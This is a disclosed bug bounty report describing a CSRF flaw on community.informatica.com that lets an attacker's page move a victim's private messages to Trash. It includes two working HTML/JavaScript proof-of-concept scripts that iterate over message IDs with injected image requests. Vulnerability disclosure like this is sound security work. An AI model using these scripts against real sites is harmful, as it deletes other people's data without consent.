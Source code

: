 # [community.informatica.com] - CSRF in Private Messages allows to move user's messages to Trash

## Report Details
- **Report ID**: 45050
- **URL**: https://hackerone.com/reports/45050
- **State**: Closed
- **Severity**: high
- **Submitted**: 2015-01-24T16:36:08.506Z
- **Disclosed**: 2016-03-02T02:46:07.403Z

## Reporter
- **Username**: artem
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hello,

https://community.informatica.com/pm-delete.jspa doesn't check Referrer header or CSRF token when you move a message to Trash. As a result, an attacker can implement CSRF attack, and make a victim move messages to Trash. Then, according to the message on Trash page (https://community.informatica.com/pm.jspa?folderID=4), Trash is emptied daily. So a victim can lose messages.

To remove a message, an attacker needs to know a message ID. Message IDs seem to be global, so an attacker can do the following:
- guess the current max message ID (for example, an attacker can send a message to yourself, and use this message ID)
- try to remove N messages with IDs that belong to an interval [max_message_id - N, max_message_id]

For example, a script like the following may be placed on attacker's page:

<html>
 <body>
  <div id="delete"></div>
  <script>
   var start_message_id = 16000;
   var message_count = 100;
   var text = "";
   var message_id = start_message_id;
   for (i = 0; i < message_count; i++) {
     text += "<img src=\"https://community.informatica.com/pm-delete.jspa?1&messageID=" + message_id + "\"\/>";
     message_id++;
   }
   document.getElementById("delete").innerHTML = text;
  </script>
 </body>
</html>

When a victim loads the page above, the script will remove messages with IDs from 16000 to 16100. The script above sends a GET request for each possible message. As a result, it works quite slow. So it might be hard to remove all users messages because a victim should stay on the page before the script is finished.

I tried to modify the script above to send a request for a batch of messages:

<script>
   var start_message_id = 15900;
   var message_count = 200;
   var N = 1;
   var text = "<img src=\"https://community.informatica.com/pm-delete.jspa?1";
   var message_id = start_message_id;
   for (i = 0; i < message_count; i++) {
     text += "&messageID=" + message_id;
     if (i != 0 && i % N == 0) {
       text += "\"\/>";
       document.getElementById("delete").innerHTML += text;
       text = "<img src=\"https://community.informatica.com/pm-delete.jspa?1";
     }
     message_id++;
   }
  </script>

But it doesn't seem to work fine. Seems the application stops removing if it finds not existing message ID.

Anyway, it can damage user's data a lot. Please take a look.

Artem

## Attachments
No attachments
